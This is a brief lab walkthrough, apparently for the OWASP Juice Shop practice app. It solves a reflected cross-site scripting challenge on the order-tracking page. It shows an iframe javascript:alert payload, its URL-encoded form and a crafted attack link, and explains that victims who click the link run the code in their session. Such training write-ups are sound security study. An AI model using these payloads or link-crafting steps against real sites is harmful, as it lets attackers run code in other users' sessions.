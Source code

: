 ## Reflected XSS
### Challenge: Perform a reflected XSS attack with \<iframe src=\"javascript\:alert\(\`xss\`\)\"\>

Login as user and click `Account` > `Orders & Payment` > `Track Orders` > type a search string eg. `test`

Notice that the inputs were directly reflected into the output page. The url used was `http://192.168.247.136:3000/#/track-result?id=test`. The XSS will be placed in the `id=` parameter.

To perform a reflected XSS attack url encode 
````
<iframe src="javascript:alert(`xss`)">
````

to 
```
<iframe%20src%3D"javascript:alert(%60xss%60)"> 
```

Now reflect XSS attack can be achieved by using the url `http://192.168.247.136:3000/#/track-result?id=<iframe%20src%3D"javascript:alert(%60xss%60)">`


Note: We modified the url to include a XSS attack such that any logged in user who clicks the link will execute our malicious XSS code (within the victim's session context eg. We are making the victim to execute malicious commands on our behalf)